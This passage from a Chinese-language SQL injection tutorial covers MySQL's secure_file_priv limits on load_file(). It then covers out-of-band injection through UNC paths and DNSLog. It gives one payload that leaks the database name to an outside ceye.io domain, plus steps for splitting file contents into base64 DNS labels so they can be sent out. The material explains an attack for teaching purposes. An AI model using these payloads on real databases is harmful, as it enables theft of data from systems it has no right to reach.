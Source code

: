 secure\_file\_priv 变量的值为 `/var/lib/mysql-files`，因此 `load_file()` 函数只能够去读该目录下的文件内容

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210106152333.png-water_print](assets/1699411534-5f28d26a3b8a69b0f2c0780bfab4a253.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210106152333.png-water_print")

注意

如果想完成任意目录下文件读取需要在 `/etc/my.conf(my.ini)` 中将 `secure_file_priv` 的值置为空

### [](#84-oob-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86)8.4 OOB 注入原理

在 windows 下，利用 load\_file 函数可以读取 UNC 路径的特性，把注入产生的信息来放到 UNC 地址中，通过 DNSLog，将数据带出

示例

select load\_file(concat("\\\\\\\\", (select database()), “.xxx.ceye.io\\\\abc”))

### [](#85-%E6%89%A9%E5%B1%95---%E5%A4%A7%E6%96%87%E6%9C%AC%E4%BC%A0%E8%BE%93)8.5 扩展 - 大文本传输

**域名长度限制**

域名由标签组成，以 `.` 分割，标签的长度不可以超过 63 个字符

整个域名不可以超过 253 个字符，包括 `.`

**思路**

1.  使用 load\_file 读取文件内容
2.  使用 substr 对文件内容进行切片
3.  使用 to\_base64 对切片的内容进行编码
4.  使用 concat 将编码后的内容与域名进行拼接
5.  使用 load\_file 访问该 UNC
